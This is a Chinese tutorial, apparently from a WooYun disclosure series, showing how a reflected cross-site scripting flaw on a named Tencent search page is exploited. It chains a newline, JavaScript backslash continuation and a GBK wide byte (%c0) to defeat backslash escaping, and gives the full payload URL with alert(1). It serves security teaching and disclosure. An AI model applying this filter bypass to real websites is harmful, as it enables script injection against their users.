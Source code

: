 # 7\. 宽字节、反斜线与换行符一起复仇记

# 7\. 宽字节、反斜线与换行符一起复仇记

> 来源：[7\. 宽字节、反斜线与换行符一起复仇记](http://www.wooyun.org/bugs/wooyun-2010-016008)

## 简要描述

这一次，3 个家伙一起上啦～

## 详细说明

1\. 实例点如下：

```
http://cgi.data.tech.qq.com/index.php?mod=search&type=data&site=digi&libid=2&curpage=1&pagenum=30&filterattr=138, 138|16|4,5,4,5&filtervalue=3500-4000,%B4%F3%D3%DA4000|%D0%FD%D7%AA|WCDMA,WCDMA,HSDPA,HSDPA&tplname=centersearch.shtml&orderby=aaaaaaaaaaaa 
```

老规矩，继续看我们的输出。

![image](img/Image_026.jpg)

2\. 一共有 3 处输出，位于 HTML 属性里的那一处，我们放弃了，因为双引号被灭掉了。那么还剩下 2 处。 都是位于`<script>..</script>` 里，而且挨在了一起。

3\. 先看第 2 处，是不是似曾相似啊？ 对的，教程 6 里刚刚遇到过。那就是输出在【注释】的情况。我们用换行符试试？

![image](img/Image_027.jpg)

4\. 一条是好消息，换行可以用，一条是坏消息。。下面出现的一句坏了我们的好事。。肿么办。

5\. 这个时候，我们需要先说点 javascript 的知识。 javascript，字符串允许下面多行的写法。

```
var a="我是一个字符串\ 我还是一个字符串";
alert(a); 
```

6\. 基于这点，我们可以把缺陷点构造成下面的样子。

```
//document.getElementById("order_select").value = "aaaa\ alert(1);//";
var searchOrder = "aaaa\ alert(1);//"; 
```

那么代码构造的解析如下：

![image](img/Image_028.jpg)

7.带着这个想法，请上我们的反斜线。。

![image](img/Image_029.jpg)

8\. 悲剧的是，反斜线被过滤成了 2 个`\\`，这下不好办了。

9\. 还记得在教程 4 里，我们提到的宽字节用法么？说到了 `%c0` 可以吃掉`%5c`。 我们看看页面的编码。

```
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" /> 
```

gbxxx 系列的啊，窃喜中。

10\. 于是，我们的`%c0` 也加入战斗了。

```
http://cgi.data.tech.qq.com/index.php?mod=search&type=data&site=digi&libid=2&curpage=1&pagenum=30&filterattr=138,138|16|4,5,4,5&filtervalue=3500-4000,%B4%F3%D3%DA4000|%D0%FD%D7%AA|WCDMA,WCDMA,HSDPA,HSDPA&tplname=centersearch.shtml&orderby=aaaa%c0%5c%0aalert(1);// 
```

看看源码中的输出。 `\\` 被我们变成了 `乱码+\`

![image](img/Image_030.jpg)

11\. 此时，标点符号们正在开会，开会的主题是：“大家好，才是真的好”

## 修复方案

参加前面教程 4，5，6